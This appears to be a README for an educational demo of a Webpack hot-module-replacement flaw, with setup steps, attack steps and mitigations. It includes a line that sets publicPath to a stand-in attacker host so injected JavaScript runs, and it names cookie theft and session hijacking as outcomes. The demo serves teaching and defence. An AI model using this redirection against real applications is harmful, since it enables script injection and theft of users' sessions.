 # Webpack HMR publicPath Security Vulnerability Demo

This demo shows how manipulating `publicPath` in Webpack's HMR can lead to arbitrary code execution.

## ⚠️ Warning

This is for educational purposes only. Never exploit this vulnerability in production environments.

## Setup

### 1. Build Webpack with ESM HMR support

Since ESM HMR is still in PR, you need to build webpack from the source:

```bash
# Clone webpack repo
git clone https://github.com/webpack/webpack.git
cd webpack

# Checkout the ESM HMR branch (PR #19616)
git fetch origin pull/19616/head:esm-hmr
git checkout esm-hmr

# Install dependencies and build
pnpm install

# Create a package
pnpm pack

# You'll get a file like webpack-5.99.9.tgz
# Copy this path for the next step
```

### 2. Install dependencies

```bash
# In vulnerable-app directory
cd vulnerable-app

# Install the custom webpack build
pnpm add file:/path/to/webpack-5.99.9.tgz

# Install other dependencies
pnpm install

# In attacker-server directory
cd ../attacker-server
pnpm install
```

### 3. Run the demo

```bash
# Terminal 1: Start attacker server
cd attacker-server
pnpm start

# Terminal 2: Start vulnerable app
cd vulnerable-app
pnpm start
```

## Attack Steps

1. Open http://localhost:8080 in your browser
2. Open browser console (F12)
3. Click "Inject Malicious publicPath" button
4. Edit `src/module.js` and save to trigger HMR
5. See the malicious code execute

## How it works

When `publicPath` is changed to an external URL, Webpack's HMR will load update chunks from that URL instead of the local server. This allows an attacker to inject arbitrary JavaScript code.

```javascript
// The vulnerability
__webpack_require__.p = 'http://attacker.com/';
```

## Impact

- Cross-Site Scripting (XSS)
- Data theft (localStorage, cookies, etc.)
- Session hijacking

## Mitigation

1. **Never use HMR in production**
2. **Use fixed publicPath**:
   ```javascript
   output: {
     publicPath: '/'
   }
   ```
3. **Apply Content Security Policy (CSP)**
4. **Validate and sanitize all external inputs**

## Note

This vulnerability exists in all HMR implementations (CommonJS, JSONP, ESM), not just ESM.


